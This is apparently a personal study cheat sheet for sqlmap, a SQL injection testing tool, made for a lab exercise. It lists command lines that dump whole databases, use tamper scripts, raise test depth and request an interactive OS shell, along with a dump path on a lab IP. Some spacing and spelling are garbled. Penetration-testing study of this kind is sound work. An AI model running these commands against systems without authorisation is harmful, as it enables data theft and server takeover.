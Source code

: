 # sqlmap
*sqlmap* is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections. [More](https://github.com/sqlmapproject/sqlmap)
```
sqlmap -r request.txt --dbms=mysql --dump sqlmap -r request.txt -p username

sqlmap -u http://domain.name --form

sqlmap --dbms=SQLite -r Burp --tamper=cspace2comment --level=3 -- dump-all
```
```
-r uses the intercepted request you saved earlier What flag sets which database is in the target host's backend?(Example: If the flag is set to mysql then sqlmap will only test mysql injections).
--dbms tells SQLMap what type of database management system it is How do you dump the table entries of the database?
--dump attempts to outputs the entire database
How do you select(lol) which parameter to use?(Example: in the url http://ex.com?test=1 the parameter would be test.)
-p use the pramater
how do you select the level of depth sqlmap should use(higher = more accurate and more tests in general).
--level
How do you ask sqlmap to try to get an interactive os-shell?
--os-shell
What flag dumps all data from every table
--dump-all
#location of dump csv /home/pthsovann/.local/share/sqlmap/output/10.10.64.78/‐ dump/
```
